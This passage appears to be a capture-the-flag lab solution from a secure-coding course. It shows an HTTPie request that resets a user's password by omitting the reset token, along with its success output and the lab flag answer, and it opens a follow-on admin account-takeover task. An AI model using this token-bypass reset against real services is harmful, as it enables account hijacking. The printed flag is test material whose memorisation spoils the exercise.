 With the `id` `649f2893cba8d0d6e8412182` attained, students need to exploit the null safety issue (by not passing the `token` field) to reset the password of `htb-student` by sending a POST request to the `/api/users/password/reset` endpoint (mapped to `src/src/controllers/users-controllers.js`, lines 272-353) on `STMIP`, passing along the `id` and the new password as POST parameters:

Code: shell

```shell
http POST http://STMIP:STMPO/api/users/password/reset id=649f2893cba8d0d6e8412182 password=ee8ad5c2fl9n83d | jq
```

```
┌─[eu-academy-1]─[10.10.14.72]─[htb-ac-413848@htb-bdnyqosrxg]─[~]
└──╼ [★]$ http POST http://83.136.252.24:41199/api/users/password/reset id=649f2893cba8d0d6e8412182 password=ee8ad5c2fl9n83d | jq

{
  "message": "Password updated successfully!"
}
```

Subsequently, after visiting the root webpage of the spawned target machine and signing in using the email `htb-student@academy.htb` and the reset password chosen previously, students will have enough cubes to unlock the "Introduction to Academy" module:

![[HTB Solutions/CWEE/z. images/1bd604ad4f00249a6e250cf9052fcd41_MD5.jpg]]

Students will attain the flag `HTB{41w4y5_c#3ck_4_nu115}` in the module's first section:

![[HTB Solutions/CWEE/z. images/a56841a3758c10ae75d3f835d4cc714b_MD5.jpg]]

Answer: `HTB{41w4y5_c#3ck_4_nu115}`

# PoC and Patching - Null Safety

## Question 1

### "Try to exploit the null bug we discussed earlier to takeover the admin account (htb-admin@hackthebox.com). To do so, you first need to identify and exploit another vulnerability that would leak his private uid, and then use it to reset his password. The admin user has unlimited cubes, so use his account to read the flag in the first section of the "Intro to Academy" module."

After spawning the target machine, students first need to install [HTTPie](https://httpie.io/) and its [httpie-jwt-auth](https://github.com/teracyhq/httpie-jwt-auth) plugin:

Code: shell

```shell
sudo apt install httpie
pip install -U httpie-jwt-auth
```

